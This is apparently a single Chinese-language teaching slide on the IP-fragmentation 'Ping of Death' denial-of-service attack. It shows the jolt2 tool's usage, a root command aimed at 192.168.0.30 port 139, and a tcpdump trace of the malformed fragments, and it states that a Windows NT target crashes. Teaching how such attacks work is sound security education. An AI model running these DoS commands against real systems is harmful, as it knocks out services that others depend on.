

# IP分片攻击——Ping O’Death
可通过jolt工具发送异常大的报文发起攻击。
[root@insecure DoS]# ./jolt2
Usage: ./jolt2 [-s src_addr] [-p port] dest_addr
Note: UDP used if a port is specified, otherwise ICMP

[root@insecure DoS]# ./jolt2 -p 139 192.168.0.30
可通过tcpdump监控到如下内容。
20:04:51.188599 test.com.cn > 192.168.0.30: (frag 1109:9@65520)
20:04:51.188850 test.com.cn > 192.168.0.30: (frag 1109:9@65520)
20:04:51.189103 test.com.cn > 192.168.0.30: (frag 1109:9@65520)
20:04:51.189358 test.com.cn > 192.168.0.30: (frag 1109:9@65520)
20:04:51.189608 test.com.cn > 192.168.0.30: (frag 1109:9@65520)
20:04:51.189864 test.com.cn > 192.168.0.30: (frag 1109:9@65520)

1109是ID表示从65520位置开始的9个字节
目标系统（Windows NT）192.168.0.30遭受攻击将会瘫痪。
13